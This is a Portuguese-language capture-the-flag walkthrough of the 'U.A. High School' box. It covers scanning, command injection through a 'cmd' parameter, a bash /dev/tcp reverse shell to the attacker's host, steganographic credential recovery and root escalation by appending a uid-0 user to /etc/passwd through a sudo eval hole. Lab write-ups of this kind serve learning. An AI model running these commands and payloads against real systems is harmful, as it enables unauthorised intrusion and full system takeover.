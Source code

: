 # _**U.A. High School CTF**_
![](high.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos uma página web, vamos visitar  
Vamos também realizar um scan com <mark>Gobuster</mark> para enumerar diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório. Investigando, uma página em branco  
Podemos continuar executando <mark>Gobuster</mark> para encontrar mais subdiretórios  
Encontramos o diretório _/images_, mas com acesso negado  
Após mais alguns scans, temos _/index.php_, porém nada contreto. Voltamos a página inicial  
Algo chama a atenção, o formulário de contato  
Tentando alguns comandos, nenhum retorno temos  
Investigando pelas ferramentas de desenvolvedor, temos o diretório _/assets/styles.css_  
Procurando por pistas neste diretório, encontramos _/images/yuei.jpg_  
Realizamos download da imagem e verificamos com <mark>Steghide | Exiftool | Strings </mark>, mas nada foi encontrado  
De volta a estaca 0. Aqui, podemos tentar realizar enumeração de diretórios (novamente) em _/index.php_, já que temos retorno 200  
Desta vez, vamos utilizar <mark>ffuf</mark>  
> ```bash
> ffuf -u 'http://[ip_address]/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0
> ```
![](scan_ffuf.jpg)

Temos alguns retornos interessantes, como ```cmd```  
Entrando no link e digitando ```../index.php?cmd=id```, temos o seguinte retorno  

![](cmd_id.jpg)

Convertendo de base64, temos retorno!  
Vamos tentar explorar isso tentando obter um _reverse shell_  
Primeiro, tentamos com bash: ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1```, mas sem nenhum retorno  
Então, conferimos para ver se existia alguma versão do **python**, e com retorno  
Utilizamos um _reverse shell_ em python com ```netcat``` ligado e temos acesso!  

![](reverse_shell.jpg)

## _**Escalando privilégios**_
Primeiro, vamos investigar o diretório _/images_, do qual não tinhamos acesso  
Temos a imagem ```oneforall.jpg```  
Navegando para _/www_, temos um diretório escondido _/Hidden_Content_, encontramos um arquivo _.txt_ que contém uma senha  
A senha parece estar conectada a imagem que encontramos em _/images_ devido a relação dos nomes  
Vamos transferir a imagem para nosso computador e investigar com <mark>Steghide</mark>  

![](steg_return.jpg)

Este erro indica que algo na imagem foi alterado para esconder algum arquivo  
Vamos investigar com <mark>Hexeditor</mark>  
O conteúdo é de um _.png_  
Vamos alterar para ser _.jpg_ editando  

![](altered_image.jpg)

Agora, vamos tentar extrair novamente  

![](content_extracted.jpg)

Temos um arquivo  
Usamos estas credenciais para realizar login via **SSH**  
E já vamos procurar os comandos que podemos executar via ```sudo -l```  

![](sudo_l.jpg)

Verificando as permissões e o arquivo, temos

![](file.jpg)

A linha ```eval "echo $feedback"``` executa o código de ```$feedback``` como código de shell, desde que ele passe no filtro  
Proíbições: ``` ` ) $( | & ; ? ! \```
Apesar disto, nem > nem / são um dos caracteres restritos  
Podemos usar isso para escrever em qualquer arquivo que quisermos como _root_  
É possível fazer uma adição ao arquivo _/etc/passwd_ e adicionar manualmente um usuário com uid e gid definidos como 0  
Primeiro, vamos gerar uma senah hash em nossa máquina
> ```bash
> mkpasswd -m md5crypt -s
> ```
Agora, vamos alterar para o formato de _/etc/passwd_  
> exploit:$1$5HD5r9kv$3Id6xhlbwN80JnZ0cmIEg.:0:0:exploit:/root:/bin/bash

E então, executar ```sudo ./feedback``` e inserir ```'exploit:$1$5HD5r9kv$3Id6xhlbwN80JnZ0cmIEg.:0:0:exploit:/root:/bin/bash' >> /etc/passwd```
Basta o comando ```su [username]``` para termos acesso _root_  

![](root_access.jpg)

Agora, só ir atrás das flags!  
